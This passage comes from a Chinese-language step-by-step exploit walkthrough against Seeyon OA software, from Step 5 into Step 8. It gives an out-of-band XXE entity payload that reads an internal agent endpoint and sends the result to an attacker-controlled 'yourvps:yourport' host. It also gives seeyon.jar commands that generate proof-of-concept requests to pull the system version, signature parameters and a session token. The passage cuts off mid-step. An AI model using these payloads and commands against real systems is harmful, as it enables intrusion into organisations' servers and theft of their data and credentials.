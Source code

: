     
    
    <!ENTITY % file SYSTEM "http://127.0.0.1:60001/agent/version/getVersion"><!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://yourvps:yourport/123.php?p=%file;'>">

  

 _ **> Step5：**_

生成获取系统版本的POC，使用下面的命令，保证125.xml能正常访问到。

  * 

    
    
    java -cp seeyon.jar Main version http://yourvps:yourport/125.xml

  

![]()

图4.4 生成获取系统版本POC  

  

修改SSRF请求中的payload为生成的POC，发送请求，可以在服务器端查看获取到的版本信息，如图4.5所示。

![]()

图4.5 通过界面响应获取版本信息

  

 _ **> Step6：**_

生成获取param需要的POC，使用下面的命令，其中最后的版本替换为上一步获取的版本，如图4.6所示。  

  * 

    
    
    java -cp seeyon.jar Main param 2.0.8

  

![]()

图4.6 生成获取token需要的参数seeyon和signature

  

 _ **> Step7：**_  

修改126.xml文件中的内容，替换为自己地址，需要注意的是这里必须替换参数seeyon和signature中的值为上一步生成的值，如图4.7所示。

![]()

图4.7 修改126.xml文件中内容

  

 _ **> Step8：**_  

生成获取token需要的POC，使用下面的命令，如图4.8所示。

  * 

    